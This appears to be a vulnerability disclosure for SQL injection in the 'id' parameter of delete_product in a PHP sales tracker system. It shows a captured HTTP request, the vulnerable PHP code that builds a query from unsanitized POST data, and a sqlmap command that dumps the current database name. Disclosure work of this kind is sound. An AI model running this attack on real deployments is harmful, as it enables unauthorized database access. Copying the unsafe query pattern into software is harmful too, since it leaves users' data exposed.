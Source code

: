 Download sourcecode from https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html

Deploy the system

The sql injection url: http://127.0.0.1/php-sts/classes/Master.php?f=delete_product Vulnerability trigger parameter: id(post parameter)

The http message is 

```
POST /php-sts/classes/Master.php?f=delete_product HTTP/1.1
Host: 172.31.171.96
Content-Length: 619
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://172.31.171.96
Referer: http://172.31.171.96/php-sts/admin/?page=products
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _identity-backend=1416da550bcea012a11350a0ee7d79cf245e88d2bb9d4d2aa1f1074044ab7943a%3A2%3A%7Bi%3A0%3Bs%3A17%3A%22_identity-backend%22%3Bi%3A1%3Bs%3A46%3A%22%5B1%2C%22z6lrwixmdNF4VqtkXw6z-3vMZdSdngm2%22%2C2592000%5D%22%3B%7D; PHPSESSID=qj7s632jgajmvubq5d9g49fnnn
Connection: close

id=1
```

sourcecode:

```php
	function delete_product(){
		extract($_POST);
		$del = $this->conn->query("UPDATE `product_list` set `delete_flag` = 1 where id = '{$id}'");
		if($del){
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success'," Product successfully deleted.");
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);

	}
```

![image-20230310230717607](D:\网安学习\tryCVE\sts-2.assets\image-20230310230717607.png)

sqlmap -r /mnt/d/web_temp/php-sts/php-sts2.txt -pid --batch --current-db

![image-20230310230757824](D:\网安学习\tryCVE\sts-2.assets\image-20230310230757824.png)

![image-20230310230806574](D:\网安学习\tryCVE\sts-2.assets\image-20230310230806574.png)